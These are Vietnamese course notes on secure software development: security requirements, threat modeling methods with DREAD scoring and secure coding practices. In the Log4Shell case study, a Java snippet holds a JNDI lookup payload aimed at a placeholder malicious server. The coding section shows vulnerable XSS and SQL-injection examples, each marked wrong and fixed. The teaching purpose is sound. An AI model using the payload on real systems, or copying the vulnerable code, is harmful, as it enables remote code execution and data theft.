# Bài 3–4 version 1: SSDLC – Quy trình Phát triển Phần mềm An toàn

---

## 1. Nền tảng Bảo mật

### 1.1. Bộ ba CIA

CIA là nền tảng lý do tại sao team IT Security tồn tại:



---

### 1.2. Mối quan hệ: Requirements – Threats – Mitigations



- **Requirements** định nghĩa những gì hệ thống phải làm/bảo vệ
- **Threats** giúp xác định các yêu cầu còn thiếu
- **Mitigations** là biện pháp giảm thiểu threat → nếu không thể mitigate được thì thường là non-requirement

---

### 1.3. Defense in Depth (Phòng thủ theo chiều sâu)

Ví dụ Web Application Server có 3 lớp bảo mật:



!!! tip "Nguyên tắc"
    Không bao giờ chỉ dựa vào một lớp bảo mật duy nhất. Nếu một lớp bị vượt qua, các lớp còn lại vẫn bảo vệ hệ thống.

---

## 2. Secure SDLC (SSDLC)

SSDLC là tích hợp các hoạt động bảo mật vào **toàn bộ** quy trình SDLC, thay vì chỉ kiểm tra bảo mật ở cuối:



Mỗi giai đoạn đều cần tích hợp bảo mật tương ứng.

---

## 3. Security Requirements – Đặc tả Yêu cầu An toàn

### 3.1. Các câu hỏi cần trả lời ở giai đoạn Requirements

Khi bắt đầu dự án, cần trả lời:

- Hệ thống có chứa dữ liệu bí mật, nhạy cảm, hay **PII** (Personally Identifiable Information) không?
- Dữ liệu được lưu trữ ở đâu và như thế nào? Ứng dụng public (internet) hay internal (intranet)?
- Ứng dụng có thực hiện tác vụ nhạy cảm không? (chuyển tiền, mở khóa, vận chuyển thuốc...)
- Ứng dụng có tác vụ rủi ro không? (cho phép upload file...)
- Hệ thống cần đảm bảo tính sẵn sàng ở mức độ nào? (99.9%, 99.99%...)

---

### 3.2. Danh sách Security Requirements phổ biến

| Nhóm | Yêu cầu cụ thể |
|---|---|
| **Mã hóa** | Encryption khi lưu trữ và truyền dữ liệu |
| **Input** | Never Trust System Input — không bao giờ tin input từ người dùng |
| **Encoding** | Encoding và Escaping output |
| **Third-party** | Quét thư viện bên thứ 3 để phát hiện lỗ hổng |
| **Headers** | Security Headers cho web app |
| **Cookies** | Bảo mật Cookies |
| **Mật khẩu** | Password manager, secret store, hash + salt |
| **Backup** | Backup và Rollback |
| **Framework** | Tận dụng tính năng bảo mật của framework |
| **File Upload** | Kiểm soát file upload |
| **Logging** | Errors và Logging đầy đủ |
| **Validation** | Input Validation và Sanitization |
| **Auth** | Authorization và Authentication |
| **DB** | Parameterized Queries |
| **Privilege** | Least Privilege — quyền tối thiểu cần thiết |

---

### 3.3. Ví dụ Security Requirements của Web Application

- Mã hóa dữ liệu khi lưu trữ và truyền
- Kiểm chứng (validate) **tất cả** input của người dùng
- Quét thư viện/framework bên thứ 3, cập nhật phiên bản mới nhất
- **Hash và salt** tất cả mật khẩu người dùng
- Sử dụng **Multi-Factor Authentication (MFA)** cho tài khoản quan trọng
- Chỉ cho phép truy cập qua **HTTPS**, redirect HTTP → HTTPS, dùng TLS phiên bản mới nhất
- **Không hardcode** thông tin nhạy cảm
- Không để thông tin nhạy cảm trong comment
- Ghi log tất cả lỗi, đặc biệt lỗi liên quan đến security
- Đảm bảo catch exceptions/errors → **fail safe**

---

## 4. Secure Design – Thiết kế An toàn

### 4.1. Định nghĩa

> *"Secure by design means the software has been designed from the ground up to be secure. Malicious practices are taken for granted and care is taken to minimize impact when a security vulnerability is discovered or on invalid user input."*

Tức là:
- Phần mềm được thiết kế an toàn **ngay từ ban đầu**
- Luôn **giả định** có thể xảy ra các hoạt động độc hại
- Nhằm **giảm thiểu ảnh hưởng** khi phát hiện lỗ hổng hoặc input không hợp lệ

---

### 4.2. Design Flaw vs Security Bug

| | Design Flaw | Security Bug |
|---|---|---|
| **Định nghĩa** | Lỗi trong **thiết kế** phần mềm | Lỗi trong **hiện thực** (lập trình) |
| **Hậu quả** | Cho phép user thực hiện hành động vốn không được phép | Cho phép user dùng ứng dụng một cách độc hại/sai |
| **Biện pháp** | Security design concepts, requirements, threat modeling | Code review, security testing, training, secure code guidelines |

---

### 4.3. Chi phí sửa lỗi theo giai đoạn SDLC

!!! danger "Nguyên tắc quan trọng"
    Giải quyết vấn đề càng trễ trong SDLC, chi phí bỏ ra **càng lớn**.

| Giai đoạn | Chi phí sửa |
|---|---|
| Requirements | ~$10 |
| Design | ~$100 |
| Code | ~$1,000 |
| Testing | Cao hơn |
| Release/Incident Response | **Significantly More** |

---

### 4.4. Nguyên tắc Shifting Left (Pushing Left)

**Shifting Left** = đảm bảo security ngay từ khi **bắt đầu** dự án, không phải lúc kết thúc.



Bảo mật phải hiện diện ở **tất cả** giai đoạn, không chỉ Testing và Release.

---

### 4.5. OWASP Top 10 (2021)

| Hạng | Lỗ hổng | Thay đổi so với 2017 |
|---|---|---|
| 1 | Broken Access Control | ↑ từ hạng 5 |
| 2 | Cryptographic Failures | ↑ từ hạng 3 |
| 3 | Injection | ↓ từ hạng 1 |
| 4 | **Insecure Design** | 🆕 Mới hoàn toàn |
| 5 | Security Misconfiguration | ↓ từ hạng 6 |
| 6 | Vulnerable and Outdated Components | ↑ từ hạng 9 |
| 7 | Identification and Authentication Failures | ↓ từ hạng 2 |
| 8 | **Software and Data Integrity Failures** | 🆕 Mới hoàn toàn |
| 9 | Security Logging and Monitoring Failures | ↑ từ hạng 10 |
| 10 | **Server-Side Request Forgery (SSRF)** | 🆕 Mới hoàn toàn |

---

### 4.6. Insecure Design: Case Study Log4Shell

**CVE-2021-44228 (Log4Shell)** — một trong những lỗ hổng nghiêm trọng nhất lịch sử:

```java
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

public class Log4jExample {
    private static final Logger logger = LogManager.getLogger(Log4jExample.class);

    public static void main(String[] args) {
        // Dữ liệu đầu vào từ người dùng
        String userInput = "${jndi:ldap://malicious-server.com/exploit}";
        
        // Ghi log → Log4j thực thi JNDI lookup → RCE!
        logger.info("User input: " + userInput);
    }
}
```

!!! danger "Vấn đề"
    Log4j được thiết kế để **tự động xử lý** các pattern `${...}` trong chuỗi log, bao gồm cả JNDI lookup. Đây là **Insecure Design** — thiết kế sai về mặt bảo mật ngay từ đầu, không phải bug lập trình đơn thuần.

---

### 4.7. Tránh Insecure Design như thế nào?

**1. Tạo User Story tốt:**

- Ghi rõ cả **flaw có thể xảy ra** trong user story
- Bao gồm cả yêu cầu chức năng **và phi chức năng** về bảo mật

**2. Tích hợp security ngay trong quy trình phát triển:**

- Tính đến an toàn phần mềm từ đầu
- Tích hợp kiểm thử bảo mật trong quy trình

**3. Phân tách layer rõ ràng:**

- Tách biệt rõ layer ứng dụng và mạng
- Sử dụng thư viện design pattern an toàn

---

### 4.8. OWASP SAMM

**SAMM** (Software Assurance Maturity Model) là framework mở hỗ trợ:

- Đánh giá các phương pháp bảo mật hiện có của tổ chức
- Thiết lập chương trình đảm bảo bảo mật phần mềm
- Định nghĩa và đo lường các hoạt động bảo mật

5 Business Functions của SAMM: **Governance, Design, Implementation, Verification, Operations**

---

### 4.9. Secure Design Concepts

| Concept | Mô tả |
|---|---|
| **Protecting Sensitive Data** | Bảo vệ dữ liệu nhạy cảm |
| **Never Trust, Always Verify / Zero Trust** | Không tin bất kỳ ai, luôn phải kiểm tra |
| **Backup and Rollback** | Sao lưu và khôi phục |
| **Server-Side Validation** | Xác thực bảo mật ở phía server, không chỉ client |
| **Framework Security Features** | Tận dụng tính năng bảo mật sẵn có của framework |
| **Security Function Isolation** | Cô lập các hàm bảo mật |
| **Application Partitioning** | Chia nhỏ ứng dụng |
| **Secret Management** | Quản lý bí mật (API keys, credentials...) |
| **Re-authentication for Transactions** | Xác thực lại giao dịch, tránh CSRF |

---

### 4.10. Dữ liệu trong ứng dụng

- **Production data**: dữ liệu thực tế khi chạy thật — **không được dùng** khi test/dev
- Môi trường dev/test phải dùng dữ liệu **masked/anonymized** (đã che thông tin)
- Dữ liệu thật chỉ dùng trên môi trường production

!!! warning "Security through obscurity"
    Che giấu source code KHÔNG phải biện pháp bảo mật đủ. Không nên dựa vào việc "không ai biết code của tôi" để đảm bảo bảo mật.

---

## 5. Threat Modeling – Mô hình hóa Mối đe dọa

### 5.1. Tại sao cần Threat Modeling?

Thiết kế phần mềm thông thường tập trung vào đảm bảo **có đủ chức năng**, thay vì đảm bảo phần mềm **chỉ hoạt động theo cách mong muốn**.

> Threat modeling = **xem xét phần mềm dưới góc nhìn của kẻ tấn công** (Evil brainstorming)

---

### 5.2. Quy trình Threat Modeling



**Chi tiết từng bước:**

1. **Đưa ra câu hỏi** về các trường hợp xấu có thể xảy ra → tạo danh sách concern
2. **Đánh giá khả năng và ảnh hưởng** → loại bỏ concern không thể xảy ra hoặc không ảnh hưởng
3. **Rate** các concern còn lại: cao / trung bình / thấp → tạo danh sách **threats** và **risks**
4. **Đưa ra kế hoạch**: giảm thiểu (sửa/loại bỏ), tài liệu hóa, chấp nhận...

---

### 5.3. Các phương pháp Threat Modeling

#### STRIDE (1999 — Microsoft)

Do Loren Kohnfelder và Praerit Garg tạo ra. Tập trung vào authentication, authorization, CIA và thoái thác trách nhiệm.

| Chữ cái | Loại mối đe dọa | Mô tả |
|---|---|---|
| **S** | Spoofing | Giả mạo danh tính — truy cập bất hợp pháp dùng thông tin của user khác |
| **T** | Tampering | Giả mạo dữ liệu — thay đổi dữ liệu trái phép |
| **R** | Repudiation | Thoái thác trách nhiệm — phủ nhận đã thực hiện hành vi độc hại |
| **I** | Information Disclosure | Lộ thông tin — tiết lộ với người không được phép |
| **D** | Denial of Service | Từ chối dịch vụ — tấn công tính sẵn sàng của hệ thống |
| **E** | Elevation of Privilege | Leo thang đặc quyền — user không có quyền cố gắng chiếm quyền |

---

#### PASTA

**Process for Attack Simulation and Threat Analysis** — 7 bước:



Tập trung vào yêu cầu kinh doanh, chức năng, sơ đồ dữ liệu. Mục tiêu: xác định, liệt kê, gán điểm cho threats.

---

#### TRIKE

- Phương pháp **mã nguồn mở**, tiếp cận từ góc nhìn **quản lý rủi ro**
- Dùng **Data Flow Diagram (DFD)** để mô phỏng luồng dữ liệu
- Gán giá trị rủi ro (CRUD: Create/Read/Update/Delete) cho mỗi threat
- Chọn biện pháp kiểm soát theo mức độ ưu tiên

---

#### VAST

**Visual, Agile, and Simple Threat** — thiết kế cho môi trường DevOps lớn:

- **Tự động hóa** mô hình hóa mối đe dọa
- Tích hợp với toàn bộ SDLC và các công cụ CI/CD
- **Cộng tác** giữa developers, architects, security team, và lãnh đạo

---

#### DREAD

**DREAD** là phương pháp đánh giá, phân tích và xác định xác suất xảy ra rủi ro bằng cách cho điểm các mối đe dọa theo 5 tiêu chí:

| Chữ cái | Tiêu chí | Câu hỏi đặt ra |
|---|---|---|
| **D** | **Damage** (Thiệt hại) | Mức độ thiệt hại nếu tấn công thành công là bao nhiêu? |
| **R** | **Reproducibility** (Khả năng tái hiện) | Tấn công có thể tái hiện dễ dàng không? |
| **E** | **Exploitability** (Khả năng khai thác) | Kẻ tấn công cần bao nhiêu nỗ lực/kỹ năng để thực hiện? |
| **A** | **Affected Users** (Người dùng bị ảnh hưởng) | Bao nhiêu người dùng sẽ bị ảnh hưởng? |
| **D** | **Discoverability** (Khả năng phát hiện lỗ hổng) | Lỗ hổng có dễ bị tìm ra không? |

**Cách chấm điểm DREAD:**

Mỗi tiêu chí được chấm từ **0 đến 10**, sau đó tính trung bình để ra điểm rủi ro tổng thể:

$$\text{DREAD Score} = \frac{D + R + E + A + D}{5}$$

| Mức điểm | Mức độ rủi ro |
|---|---|
| 0 – 3 | Thấp |
| 4 – 6 | Trung bình |
| 7 – 10 | Cao |

**Ví dụ thực tế — SQL Injection trên web banking:**

| Tiêu chí | Điểm | Lý do |
|---|---|---|
| Damage | 9 | Lộ toàn bộ dữ liệu tài khoản, giao dịch |
| Reproducibility | 8 | Có thể dùng tool tự động như SQLMap |
| Exploitability | 7 | Kỹ năng trung bình là đủ |
| Affected Users | 10 | Toàn bộ người dùng hệ thống |
| Discoverability | 8 | Dễ phát hiện qua fuzzing input |
| **Tổng** | **8.4** | **→ Rủi ro CAO** |

!!! warning "Hạn chế của DREAD"
    DREAD bị Microsoft **ngừng sử dụng nội bộ** từ khoảng 2008 vì tính chủ quan cao — hai người đánh giá cùng một threat có thể cho điểm rất khác nhau. Tuy nhiên, DREAD vẫn được nhiều tổ chức dùng như một **khung tham chiếu nhanh** để so sánh mức độ ưu tiên giữa các threats.

---

### 5.4. OCTAVE

**OCTAVE** (Operationally Critical Threat, Asset, and Vulnerability Evaluation) tiếp cận threat modeling từ góc nhìn **tổ chức và tài sản**, không chỉ từ góc kỹ thuật thuần túy.



- Tập trung vào **tài sản CNTT quan trọng** (critical assets) — dữ liệu khách hàng, hệ thống thanh toán, v.v.
- Xác định các mối đe dọa ảnh hưởng đến **CIA** của từng tài sản
- Kết hợp quan điểm của **lãnh đạo, kỹ thuật, và vận hành** trong cùng một quy trình

---

### 5.5. So sánh các phương pháp Threat Modeling

| Phương pháp | Góc nhìn chính | Phù hợp với | Đặc điểm nổi bật |
|---|---|---|---|
| **STRIDE** | Loại mối đe dọa | Team kỹ thuật | Phân loại threat theo 6 nhóm rõ ràng |
| **PASTA** | Kinh doanh + kỹ thuật | Tổ chức lớn | 7 bước, tập trung vào rủi ro kinh doanh |
| **TRIKE** | Quản lý rủi ro | Audit, compliance | Dùng DFD, gán giá trị CRUD |
| **VAST** | DevOps toàn tổ chức | Môi trường Agile/DevOps lớn | Tự động hóa, tích hợp CI/CD |
| **DREAD** | Điểm số rủi ro | Ưu tiên nhanh | Cho điểm 5 tiêu chí, dễ so sánh |
| **OCTAVE** | Tài sản tổ chức | Quản lý cấp cao | Kết hợp business + kỹ thuật + vận hành |

---

### 5.6. Công cụ hỗ trợ Threat Modeling

??? info "Microsoft Threat Modeling Tool"
    - Công cụ miễn phí của Microsoft
    - Cho phép vẽ **Data Flow Diagram (DFD)** và tự động sinh danh sách threats theo STRIDE
    - Hỗ trợ template cho Azure, web app, v.v.
    - Phù hợp cho team dùng hệ sinh thái Microsoft

??? info "OWASP Threat Dragon"
    - Công cụ mã nguồn mở của OWASP
    - Tuân theo **Threat Modeling Manifesto**
    - Có thể chạy dưới dạng web app hoặc desktop app
    - Tham khảo: [OWASP Threat Modeling Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Threat_Modeling_Cheat_Sheet.html)

??? info "Threagile"
    - Công cụ mã nguồn mở, ra mắt tại **Black Hat Arsenal 2020** và **DEF CON 2020**
    - Mô hình hóa kiến trúc dưới dạng **file YAML** trong IDE
    - Sau khi khai báo xong, công cụ chạy bộ **risk rules** và tạo báo cáo tự động với:
        - Danh sách rủi ro theo mức độ (Critical / High / Elevated / Medium / Low)
        - Tham chiếu đến **OWASP ASVS** và **OWASP Cheat Sheet** tương ứng
    - Tích hợp tốt với môi trường **DevSecOps**
    - Link: [threagile.io](https://threagile.io)

??? info "Các công cụ thương mại khác"
    - **ThreatModeler** — tự động hóa threat modeling theo quy trình
    - **securiCAD Professional** — mô phỏng tấn công và phân tích rủi ro
    - **IriusRisk** — tích hợp với Jira, Azure DevOps
    - **SD Elements** — sinh security requirements tự động từ threat model
    - **Tutamen** — tập trung vào compliance và risk management

---

### 5.7. Câu hỏi thảo luận (có trả lời)

??? question "Câu 1: Kể tên 3 loại thông tin có thể được xem là 'bí mật – secret'. Nên lưu trữ ở đâu và truy cập như thế nào?"
    **3 loại thông tin bí mật phổ biến:**

    1. **API Keys / Access Tokens** — dùng để xác thực với dịch vụ bên ngoài (Google Maps API, Stripe, AWS...)
    2. **Database credentials** — username/password kết nối CSDL
    3. **Private keys (SSL/TLS, SSH, JWT signing key)** — dùng để mã hóa hoặc ký số

    **Nên lưu ở đâu?**

    - **Secret Management System** như HashiCorp Vault, AWS Secrets Manager, Azure Key Vault, GCP Secret Manager
    - **Environment variables** được inject vào runtime (không hardcode trong code)
    - **CI/CD secret store** như GitHub Actions Secrets, GitLab CI Variables (masked)

    **Tuyệt đối KHÔNG:**
    - Hardcode trong source code
    - Commit lên Git (dù là private repo)
    - Để trong file config không mã hóa
    - Ghi vào log hay comment

    **Ứng dụng nên truy cập như thế nào?**
    - Đọc từ environment variable tại runtime
    - Gọi API của secret manager với IAM role (không dùng static credential)
    - Rotate định kỳ và audit log mọi lần truy cập

??? question "Câu 2: Giả sử có 1 ứng dụng mobile banking. Kể tên ít nhất 2 mối đe dọa (threat), đánh giá khả năng và thiệt hại, đề xuất biện pháp khắc phục?"

    **Threat 1: Man-in-the-Middle (MitM) Attack**

    | Tiêu chí | Đánh giá |
    |---|---|
    | Khả năng xảy ra | **Cao** — đặc biệt khi user dùng WiFi công cộng |
    | Thiệt hại | **Cao** — kẻ tấn công có thể đọc/thay đổi dữ liệu giao dịch |

    **Biện pháp:**
    - Bắt buộc HTTPS với TLS 1.2+
    - Triển khai **Certificate Pinning** trên mobile app
    - Cảnh báo user khi kết nối mạng không an toàn

    ---

    **Threat 2: Credential Stuffing / Brute Force đăng nhập**

    | Tiêu chí | Đánh giá |
    |---|---|
    | Khả năng xảy ra | **Trung bình đến Cao** — dữ liệu leak từ các breach khác rất nhiều |
    | Thiệt hại | **Cao** — chiếm tài khoản, thực hiện giao dịch trái phép |

    **Biện pháp:**
    - Bật **Multi-Factor Authentication (MFA)** bắt buộc
    - Giới hạn số lần đăng nhập sai (rate limiting, account lockout)
    - Tích hợp **CAPTCHA** sau N lần thất bại
    - Theo dõi đăng nhập bất thường (địa điểm lạ, thiết bị mới)

---

## 6. Secure Code – Lập trình An toàn

### 6.1. Lựa chọn Framework và Ngôn ngữ

!!! tip "Nguyên tắc chọn framework"
    - Chọn framework **đang được hỗ trợ tích cực** và có lộ trình dài hạn
    - Dùng phiên bản **mới nhất hoặc mới-thứ-hai** (tránh dùng version quá cũ không có security patch)
    - Framework phải **hỗ trợ các tính năng bảo mật** cần thiết: CSRF protection, parameterized queries, output encoding...

!!! danger "SAY NO với:"
    - Framework không còn được maintain (end-of-life)
    - Framework có lịch sử lỗ hổng chưa được vá
    - Phiên bản quá cũ không có security update

---

### 6.2. Untrusted Data – Dữ liệu không tin cậy

**Nguyên tắc vàng: Never Trust User Input**

Mọi dữ liệu đến từ bên ngoài đều phải bị nghi ngờ, bao gồm:

- Form input từ người dùng
- URL parameters, query strings
- HTTP headers (User-Agent, Referer, Cookie)
- Dữ liệu từ API bên ngoài
- File upload
- Dữ liệu từ database (nếu có thể đã bị tamper)

**Luồng xử lý Input an toàn:**



---

### 6.3. Các lỗ hổng phổ biến và cách phòng tránh

#### Reflected XSS / URL Redirect

- **Vấn đề:** Kẻ tấn công chèn script độc hại vào URL, nạn nhân click vào và script chạy trong trình duyệt
- **Phòng tránh:**
    - Validate và encode output trước khi render ra HTML
    - Dùng whitelist cho redirect URL
    - Thiết lập **Content Security Policy (CSP)** header

```java
// Sai - dễ bị XSS
String name = request.getParameter("name");
response.getWriter().println("<h1>Hello " + name + "</h1>");

// Đúng - encode output
String name = request.getParameter("name");
String safeName = ESAPI.encoder().encodeForHTML(name);
response.getWriter().println("<h1>Hello " + safeName + "</h1>");
```

#### SQL Injection

- **Vấn đề:** Input của user được ghép trực tiếp vào câu SQL, kẻ tấn công có thể đọc/xóa/sửa toàn bộ database
- **Phòng tránh:** Luôn dùng **Parameterized Queries / Prepared Statements**

```java
// Sai - SQL Injection
String query = "SELECT * FROM users WHERE username = '" + username + "'";
stmt.execute(query);

// Đúng - Parameterized Query
String query = "SELECT * FROM users WHERE username = ?";
PreparedStatement stmt = conn.prepareStatement(query);
stmt.setString(1, username);
stmt.executeQuery();
```

#### Stored XSS

- **Vấn đề:** Script độc hại được lưu vào database và render ra cho tất cả người dùng xem trang đó
- **Phòng tránh:**
    - Sanitize input trước khi lưu
    - Encode output khi hiển thị ra HTML
    - Dùng thư viện như DOMPurify (frontend) hoặc OWASP Java HTML Sanitizer

---

### 6.4. Các chủ đề Secure Code khác

**HTTP Methods:** Disable tất cả HTTP method không sử dụng (PUT, DELETE, TRACE, OPTIONS...) để giảm attack surface.

**Identity Management:**
- Không tự xây hệ thống auth từ đầu nếu không cần thiết
- Dùng giải pháp có sẵn: **Active Directory**, **Keycloak**, **Auth0**
- Nếu bắt buộc tự xây: dùng giao thức chuẩn **OAuth 2.0 / OpenID Connect**

**Authentication & Authorization:**
- Phân biệt rõ **Authentication** (xác thực danh tính) và **Authorization** (phân quyền truy cập)
- Implement **Role-Based Access Control (RBAC)** hoặc **Attribute-Based Access Control (ABAC)**
- Luôn kiểm tra quyền ở **server-side**, không tin vào client

**Session Management:**
- Session ID phải đủ dài và random (dùng **SecureRandom**, không dùng Random)
- Invalidate session sau logout và sau timeout
- Regenerate session ID sau khi đăng nhập thành công (tránh Session Fixation)

**Bounds Checking:**
- Kiểm tra giới hạn mảng, buffer để tránh **Buffer Overflow** (quan trọng với C/C++)
- Validate range của số nguyên để tránh **Integer Overflow**

**Error Handling, Logging & Monitoring:**
- Không để stack trace hay thông tin hệ thống lộ ra người dùng cuối
- Log đủ thông tin để audit: ai, làm gì, khi nào, từ đâu
- Không log thông tin nhạy cảm: password, credit card, session token

---

### 6.5. OWASP Secure Coding Checklist

OWASP cung cấp checklist các nhóm cần kiểm tra khi lập trình an toàn:

| Nhóm | Nội dung chính |
|---|---|
| **Input Validation** | Validate tất cả input từ mọi nguồn |
| **Output Encoding** | Encode output theo ngữ cảnh (HTML, JS, SQL, URL...) |
| **Authentication & Password Management** | Hash+salt password, MFA, lockout policy |
| **Session Management** | Secure session ID, timeout, invalidation |
| **Access Control** | Least privilege, server-side check |
| **Cryptographic Practices** | Dùng thuật toán mạnh, quản lý key đúng cách |
| **Error Handling & Logging** | Fail safe, log đầy đủ, không lộ thông tin |
| **Data Protection** | Mã hóa dữ liệu nhạy cảm, PII |
| **Communication Security** | HTTPS/TLS, certificate validation |
| **System Configuration** | Hardening, disable không cần thiết |
| **Database Security** | Parameterized query, least privilege DB account |
| **File Management** | Kiểm soát upload, validate file type/size |
| **Memory Management** | Bounds check, giải phóng tài nguyên đúng cách |

---

### 6.6. CWE Top 25 (2022)

**CWE (Common Weakness Enumeration)** là danh sách các điểm yếu phần mềm phổ biến nhất, được MITRE duy trì:

| Hạng | CWE | Tên | Ghi chú |
|---|---|---|---|
| 1 | CWE-787 | Out-of-bounds Write | Điểm 64.20 |
| 2 | CWE-79 | Cross-site Scripting (XSS) | Điểm 45.97 |
| 3 | CWE-89 | SQL Injection | Điểm 22.11 |
| 4 | CWE-20 | Improper Input Validation | |
| 5 | CWE-125 | Out-of-bounds Read | |
| 6 | CWE-78 | OS Command Injection | |
